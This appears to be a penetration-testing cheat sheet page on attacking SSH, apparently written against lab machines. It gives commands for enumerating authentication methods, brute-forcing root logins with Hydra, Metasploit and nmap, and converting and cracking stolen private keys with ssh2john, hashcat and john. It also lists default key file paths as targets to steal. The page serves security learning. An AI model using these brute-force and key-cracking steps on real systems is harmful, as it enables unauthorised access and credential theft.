 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SSH (22)

## Inline Command Execution

```bash
ssh user1@10.10.10.10 -p 2222 'ls /home/user1/'
```

## Enumeration

Supported authentication methods.

```bash
nmap -p22 -script=ssh-auth-methods <IP>
```

## Audit

{% code overflow="wrap" %}
```bash
$ ssh-audit 192.168.0.24
# general
(gen) banner: SSH-1.99-OpenSSH_2.9p2
(gen) protocol SSH1 enabled
(gen) software: OpenSSH 2.9p2
(gen) compatibility: OpenSSH 2.5.0-6.6, Dropbear SSH 0.47-0.52
(gen) compression: enabled (zlib)

<SNIP>
```
{% endcode %}

## Brute Force

{% tabs %}
{% tab title="Hydra" %}
{% code overflow="wrap" %}
```bash
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.0.24:22 -t 4
```
{% endcode %}
{% endtab %}

{% tab title="Metasploit" %}
```bash
$ msfconsole -q
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
PASS_FILE => /usr/share/wordlists/metasploit/unix_passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME root
USERNAME => root
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_AS_PASS true
USER_AS_PASS => true
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 192.168.57.134
RHOSTS => 192.168.57.134
```
{% endtab %}

{% tab title="Nmap" %}
```bash
nmap -p 22 --script ssh-brute potato
```
{% endtab %}
{% endtabs %}

## PPK to PEM

Convert a Putty user key file (`.ppk`) to an SSH `.pem` file.

```bash
# Converting PPK to PEM
sudo puttygen key.ppk -O private-openssh -o key.pem
# Assigning the appropriate permissions
sudo chmod 600 key.pem
# Confirming permissions
ls -l key.pem
# Using public key authentication
ssh root@10.10.11.227 -i key.pem
```

For an example of the above process check [Keeper](../../boxes/easy/keeper.md#keepass-exploitation).

## Private Keys

{% tabs %}
{% tab title="1. Convertion" %}
{% code overflow="wrap" %}
```bash
# converting the private key into a hashcat-friendly format
$ ssh2john id_rsa > ssh.hash
```
{% endcode %}
{% endtab %}

{% tab title="2. Formatting" %}
{% code overflow="wrap" %}
```bash
$ cat ssh.hash
id_rsa:$sshng$6$16$7059e78a8d3764ea1e883fcdf592feb7$1894$6f70656e737<SNIP>

# removing the 'id_rsa' username
$ nano ssh.hash
$ cat ssh.hash
$sshng$6$16$7059e78a8d3764ea1e883fcdf592feb7$1894$6f70656e737<SNIP>
```
{% endcode %}
{% endtab %}

{% tab title="3. Cracking" %}
{% code overflow="wrap" %}
```bash
$ hashcat -h | grep -i "ssh" 
<SNIP>
22921 | RSA/DSA/EC/OpenSSH Private Keys ($6$) | Private Key

# might not work
$ hashcat -m 22921 ssh.hash ssh.passwords
# this will probably work
$ john --wordlist=ssh.passwords ssh.hash
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Key Types

SSH supports **multiple key types**, each with a default filename, thus, when trying to exfiltrate one don't just search for `id_rsa`!

| Key Type  | Private Key File    | Public Key File         |
| --------- | ------------------- | ----------------------- |
| RSA       | `~/.ssh/id_rsa`     | `~/.ssh/id_rsa.pub`     |
| ECDSA     | `~/.ssh/id_ecdsa`   | `~/.ssh/id_ecdsa.pub`   |
| ED25519   | `~/.ssh/id_ed25519` | `~/.ssh/id_ed25519.pub` |
| DSA (old) | `~/.ssh/id_dsa`     | `~/.ssh/id_dsa.pub`     |

* **ECDSA** and **ED25519** are newer and generally faster/smaller than RSA.
* **ED25519** is currently the recommended default for many systems (`ssh-keygen` defaults to it now).
* **RSA** is still widely supported, but **4096-bit keys** are preferred now due to security standards.

